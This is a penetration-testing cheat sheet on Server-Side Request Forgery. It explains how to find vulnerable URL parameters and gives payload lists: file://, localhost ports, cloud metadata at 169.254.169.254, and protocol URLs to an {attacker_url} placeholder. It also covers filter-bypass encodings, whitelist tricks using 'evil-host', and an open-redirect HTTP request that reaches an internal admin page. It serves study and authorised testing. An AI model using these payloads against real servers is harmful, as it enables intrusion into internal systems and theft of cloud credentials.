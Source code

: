 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

<details>

<summary>Blacklist input filter</summary>

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1/admin
http://0/admin
http:@0/admin
http://0.0.0.0:80/admin
http://[::]:80/admin
http://[0000::1]:80/admin
http://2130706433/admin # Decimal version of localhost
http://0x7f000001/admin # Hexadecimal version of localhost
http://169.254.169.254/admin # amazon cloud
```

* Obfuscating string using URL encoded, even double URL encoded sometimes. Or sometimes the alterantive IP works but the control works with the path /admin. In this case we can encoding only the path (ex `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`)
* Registered your own domain name that resolved the `localhost` IP address.
* Swithing from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

</details>

<details>

<summary>Whilist input filter</summary>

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, for example the URL must begin with http://expected-host, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

*   You can embed credentials in a URL before the hostname, using the `@` character. For example:

    `https://expected-host:fakepassword@evil-host`
*   You can use the `#` character to indicate a URL fragment. For example:

    `https://evil-host#expected-host`
*   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

    `https://expected-host.evil-host`
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
* You can use combinations of these techniques together.

</details>

<details>

<summary>Open Redirection</summary>

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

{% code overflow="wrap" %}
```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
{% endcode %}

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

</details>





## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```







## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}
